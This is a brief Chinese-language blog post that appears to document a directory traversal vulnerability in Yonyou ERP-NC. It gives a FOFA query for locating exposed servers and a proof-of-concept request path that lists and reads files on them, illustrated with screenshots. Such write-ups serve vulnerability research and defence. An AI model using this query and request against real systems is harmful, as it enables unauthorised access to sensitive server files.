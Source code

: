# ⽤友ERP-NC ⽬录遍历漏洞


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%8F%8Berp-nc-%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/  

